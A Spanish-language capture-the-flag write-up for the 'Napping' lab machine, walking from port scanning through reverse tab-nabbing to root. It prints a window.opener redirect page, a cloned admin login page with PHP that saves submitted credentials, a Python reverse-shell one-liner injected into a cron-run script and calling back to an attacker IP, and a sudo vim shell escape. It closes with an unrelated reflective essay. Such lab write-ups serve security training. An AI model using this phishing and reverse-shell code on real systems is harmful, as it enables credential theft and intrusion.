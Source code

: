 
# Napping

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `80` para `HTTP`.

<figure><img src="../.gitbook/assets/napping/nmap.png" alt=""><figcaption></figcaption></figure>

Accedimos a la página web en el puerto **80** y creamos una cuenta para explorar su contenido.

<figure><img src="../.gitbook/assets/napping/signup.png" alt=""><figcaption></figcaption></figure>

Realizamos una enumeración de directorios en el puerto **80** para descubrir qué podemos encontrar.

<figure><img src="../.gitbook/assets/napping/dirsarch.png" alt=""><figcaption></figcaption></figure>

Encontramos algunos directorios, pero no son nada inusuales, ya que no contamos con credenciales. Por lo tanto, revisemos la página web que se carga normalmente.

En la página, encontramos el siguiente mensaje:

```
# Please submit your link so that we can get started.  
All links will be reviewed by our admin who also built this site!
```


Esto nos proporciona un vector de ataque, ya que el administrador del sitio revisará el contenido que subamos.

<figure><img src="../.gitbook/assets/napping/web.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/napping/req.png" alt=""><figcaption></figcaption></figure>

Examinamos el código del sitio web en busca de posibles vectores de ataque y efectivamente encontramos **Reverse Tab Nabbing**. Esto se debe al atributo `target="_blank"`, que nos permite redirigir a una página clonada para robar credenciales.

```
Luego, una vez que la víctima haga clic en el enlace y acceda al sitio web de los atacantes, este sitio web malicioso podrá controlar la página original a través de la ventana del objeto JavaScript.
```

Para  saber mas de este ataque: 

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/reverse-tab-nabbing.html" %}


Primero, como observamos en la enumeración del sitio web, podemos acceder a la página de inicio de sesión de los administradores `/admin/login.php`. Por lo tanto, necesitaremos clonarla y añadir un fragmento de código para capturar las credenciales.

Comenzamos creando nuestro **`index.php`**, que nos permitirá redirigir la página a nuestro servidor hacia la versión clonada.

```PHP
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://<yourip>:<port>/index.php";
  </script>
 </body>
</html>
```

Clonamos la página de **`/admin/login.php`** y añadimos el siguiente código, que nos permite capturar y enviar a nuestro servidor las credenciales de un administrador mediante una solicitud **`POST`**.

``` PHP
<?php
	if(isset($_POST['username'])){
		file_put_contents('creds.txt', file_get_contents('php://input'));
	}

?>
```

El código final en `login.php` se presentaría de la siguiente manera.

``` PHP

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<?php
	if(isset($_POST['username'])){
		file_put_contents('creds.txt', file_get_contents('php://input'));
	}

?>

<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>


```

Ahora solo necesitamos iniciar un servidor `HTTP` para acceder a la URL de `index.php`, lo que permitirá redirigir a los usuarios a nuestro servidor con la página clonada.

<figure><img src="../.gitbook/assets/napping/clone.png" alt=""><figcaption></figcaption></figure>


<figure><img src="../.gitbook/assets/napping/CREAD.png" alt=""><figcaption></figcaption></figure>

De esta manera, conseguimos nuestras credenciales de administrador y accedemos a la página `/admin/login.php` para explorar su contenido. Sin embargo, lamentablemente, no encontramos nada interesante.

<figure><img src="../.gitbook/assets/napping/daniel.png" alt=""><figcaption></figcaption></figure>

Finalmente, intentamos acceder a través del puerto `SSH` y confirmamos que podemos ingresar sin problemas.

<figure><img src="../.gitbook/assets/napping/danielshh.png" alt=""><figcaption></figcaption></figure>

# Shell \daniel

Al realizar la enumeración de procesos con `pspy64`, podemos observar que hay varios procesos que se ejecutan de manera regular.

```
2025/08/25 00:40:01 CMD: UID=0     PID=1805   | /bin/sh -c /usr/bin/rm /home/adrian/site_status.txt 
2025/08/25 00:40:01 CMD: UID=0     PID=1806   | /bin/sh -c /usr/bin/python3 /root/del_links.py 
2025/08/25 00:40:01 CMD: UID=0     PID=1807   | /bin/sh -c /usr/bin/python3 /root/nap.py 
2025/08/25 00:40:01 CMD: UID=1000  PID=1808   | /bin/sh -c /usr/bin/python3 /home/adrian/query.py 
2025/08/25 00:40:01 CMD: UID=0     PID=1809   | /usr/bin/python3 /root/del_links.py 

```

Verificamos que contamos con permisos de escritura en el archivo `/home/adrian/query.py`, y efectivamente los tenemos. Esto nos permite escalar privilegios a `adrian` si implementamos un reverse shell.

<figure><img src="../.gitbook/assets/napping/adrianquery.png" alt=""><figcaption></figcaption></figure>

Incorporamos el siguiente código, especificando la dirección `IP` y el puerto del atacante.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.30",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```

Quedaría de la siguiente forma.

```
from datetime import datetime
import requests

now = datetime.now()

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.30",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()

```

<figure><img src="../.gitbook/assets/napping/adianfalg.png" alt=""><figcaption></figcaption></figure>

# Shell \adrian


{% embed url="https://0xffsec.com/handbook/shells/full-tty/" %}

Al ejecutar `sudo -l`, observamos que tenemos la capacidad de ejecutar `/usr/bin/vim` como root, por lo que decidimos investigar más al respecto.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

A continuación, ejecutamos el siguiente comando.

```
sudo -u root /usr/bib/vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/napping/sudo-l.png" alt=""><figcaption></figcaption></figure>

De esta manera, logramos obtener la shell de root junto con su bandera.

<figure><img src="../.gitbook/assets/napping/rootfla.png" alt=""><figcaption></figcaption></figure>

****************

>*Tu mente se satura al consumir tanto contenido. Piensa en lo que sucede cuando comes en exceso: te sientes pesado, letárgico y te cuesta moverte. Tu cuerpo clama por un descanso para poder digerir todo lo que has ingerido. Lo mismo ocurre con tu mente. Te despiertas y, de inmediato, comienzas a consumir stories, tomas café mientras escuchas podcasts, almuerzas viendo videos, trabajas con música de fondo, te relajas con series y te duermes con ruido relajante.*
>
>*El problema no radica en cada una de estas actividades por separado, sino en la falta de pausas para tu mente. Nunca le das la oportunidad de procesar lo que ha consumido, lo que resulta en una indigesta mental constante. Naces en un vacío, sin aburrimiento ni silencio, en un espacio incómodo donde tu mente no tiene hambre. Se ve obligada a crear lo que te gustaría consumir.*
>
>*Si deseas volver a crear, considera hacer un ayuno mental. Dale a tu mente el tiempo que necesita para procesar, digerir y, finalmente, generar algo propio. Al final, tienes dos opciones: consumir la creatividad de otros o crear la tuya. La elección es tuya.*
>
><figure><img src="../.gitbook/assets/napping/touhou.jpeg" alt=""><figcaption></figcaption></figure>